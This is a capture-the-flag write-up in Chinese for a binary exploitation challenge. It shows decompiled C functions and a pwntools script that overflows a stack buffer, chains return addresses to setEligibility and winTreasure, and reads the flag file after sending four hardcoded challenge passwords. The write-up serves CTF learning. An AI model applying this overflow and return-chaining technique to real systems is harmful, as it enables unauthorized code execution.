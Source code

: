 binary 裡面有 `winTreasure` function ，不過有檢查 `eligible` 這個全域變數
```c
void winTreasure(void)
{
  char local_58 [72];
  FILE *local_10;
  
  if (eligible == '\0') {
    puts("No flag for you!");
  }
  else {
    local_10 = fopen("flag.txt","r");
    fgets(local_58,0x40,local_10);
    puts(local_58);
  }
  return;
}
```

去看 `eligible` 的 reference 發現有這個 function 可以去更改他的值
```c
void setEligibility(void)
{
  eligible = 1;
  return;
}
```

所以先填入 `0x40 + 0x08` 個 padding 填滿 stack 和 old rbp，之後依序填入 `setEligibility` 和 `winTreasure` 的 address 就可以拿到 `flag` 
```python
from pwn import *

p = process('./vuln')
# p = remote("treasure-hunt.ctf.pearlctf.in", 30008)

set_eligible_addr = 0x0040126c
win_addr = 0x00401207
payload = b"A" * 0x40 + b"B" * 0x08 + p64(set_eligible_addr) + p64(win_addr)
password = ["whisp3ring_w00ds", "sc0rching_dunes", "eldorian_ech0", "shadow_4byss"]

for i in range(4):
    p.recvuntil(b": ")
    p.sendline(password[i].encode("utf-8"))

p.recvuntil(b"- ")
p.sendline(payload)
p.recvline()
flag = p.recvline()
p.close()

print("flag: "+flag.decode())

```
